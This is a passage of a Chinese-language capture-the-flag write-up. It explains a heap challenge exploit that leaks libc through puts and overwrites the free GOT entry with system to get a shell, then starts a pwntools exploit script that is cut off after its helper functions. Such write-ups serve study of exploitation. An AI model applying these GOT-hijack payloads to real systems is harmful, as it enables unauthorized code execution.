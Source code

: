 接著呼叫 wipe(small) 會變成：

```
wipe(small) -> free(small) -> puts(small) -> puts(libc_start_main_got)
```

成功 leak libc function address。

這裡 libc 的版本是直接對比 babyheap 那題的 libc.so.6 是同一版本直接拿來用，找到 libc base 之後，利用 renew(huge) 把 small_buf 在指回 free_got

```python
payload = p64(free_got) + p32(1) * 3
```

之後 renew(small) 來把 free_got 再次 hijack：

```python
system = base + libc.symbols['system']
payload = p64(system) + p64(puts_got_value)
```

接著 renew(huge) 把 small_buf 指到 'sh\x00' 字串位置

```python
payload = p64(0x6020b8) + 'sh\x00'
```

改完後 global buffer：

```assembly
0x6020a0:       0x00000000013b0040      0x00000000006020b0
0x6020b0:       0x00000000006020b8      'sh\x00'
```

call wipe(small)：

```
wipe(small) -> free(small) -> system(small) -> system('sh')
```

就拿到 shell 了！

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('52.68.31.117', 5566)


secret_size={'small':'1', 'big':'2', 'huge':'3'}
free_got = 0x602018
puts_got_value = 0x4006c6
libc_start_main_got = 0x602048


def keep(size, content):
    r.sendlineafter("3. Renew secret\n", '1')
    r.sendlineafter("3. Huge secret\n", secret_size[size])
    r.sendlineafter("Tell me your secret:", content)

def wipe(size):
    r.sendlineafter("3. Renew secret\n", '2')
    r.sendlineafter("3. Huge secret\n", secret_size[size])

def renew(size, content):
    r.sendlineafter("3. Renew secret\n", '3')
    r.sendlineafter("3. Huge secret\n", secret_size[size])
```